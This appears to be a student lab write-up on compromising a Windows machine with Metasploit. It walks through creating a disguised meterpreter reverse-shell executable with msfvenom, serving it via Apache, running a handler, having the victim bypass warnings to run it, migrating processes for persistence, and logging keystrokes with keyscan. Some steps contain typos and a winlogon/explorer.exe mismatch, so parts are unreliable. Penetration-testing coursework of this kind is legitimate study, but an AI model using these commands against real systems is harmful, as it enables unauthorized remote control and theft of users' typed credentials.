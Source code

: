 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![](1.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![](2.png)

copy the fun.exe into the apache /var/www/html folder
![](3.png)

Start apache server sudo systemctl apache2 start
![](4.png)

Check the status of apache2
1[](5.png)

Invoke msfconsole:
msfconsole
![](6.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![](7.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![](8.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![](9.png)

Bypass any warning boxes, double-click the file, and allow it to run.
![](10.png)

On kali give the command exploit
![](11.png)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![](12.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![](13.png)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![](14.png)
![](15.png)

keyscan_dump Shows the keystrokes captured so far
![](16.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
